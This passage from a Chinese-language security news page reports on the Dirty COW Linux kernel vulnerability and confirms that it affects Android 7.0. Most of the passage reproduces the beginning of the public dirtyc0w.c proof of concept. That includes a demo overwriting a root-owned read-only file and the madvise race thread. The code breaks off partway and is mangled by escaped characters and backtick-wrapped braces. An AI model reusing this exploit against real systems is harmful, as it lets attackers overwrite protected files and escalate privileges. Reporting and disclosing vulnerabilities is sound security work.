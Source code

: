 作者对此的解释是：我们对建立有品牌的漏洞充满了乐趣，但是也许在这个时间点，这不是一个好主意。但是为了表明我们的立场，我才创建了网站，在线商店，twiiter帐号，以及请专业设计师为这个漏洞设计了LOGO。



**2016.10.21 13:37更新漏洞影响范围：**

**360 Vulpecker Team：Android 7.0最新的10月补丁安全级别的系统上测试过漏洞POC，确认Android受影响**

**[![](https://p1.ssl.qhimg.com/t0121e9bea91a952b8d.png)](https://p1.ssl.qhimg.com/t0121e9bea91a952b8d.png)**

**<br>**

**2016.10.21 9:10更新POC：**

POC地址：

[https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c](https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c)

```
/*
####################### dirtyc0w.c #######################
$ sudo -s
# echo this is not a test &gt; foo
# chmod 0404 foo
$ ls -lah foo
-r-----r-- 1 root root 19 Oct 20 15:23 foo
$ cat foo
this is not a test
$ gcc -lpthread dirtyc0w.c -o dirtyc0w
$ ./dirtyc0w foo m00000000000000000
mmap 56123000
madvise 0
procselfmem 1800000000
$ cat foo
m00000000000000000
####################### dirtyc0w.c #######################
*/
#include &lt;stdio.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;pthread.h&gt;
#include &lt;string.h&gt;
 
void *map;
int f;
struct stat st;
char *name;
 
void *madviseThread(void *arg)
`{`
  char *str;
  str=(char*)arg;
  int i,c=0;
  for(i=0;i&lt;100000000;i++)
  `{`
/*
You have to race madvise(MADV_DONTNEED) :: https://access.redhat.com/security/vulnerabilities/2706661
&gt; This is achieved by racing the madvise(MADV_DONTNEED) system call
&gt; while having the page of the executable mmapped in memory.
*/
    c+=madvise(map,100,MADV_DONTNEED);
  `}`
  printf("madvise %dnn",c);
`}`
```
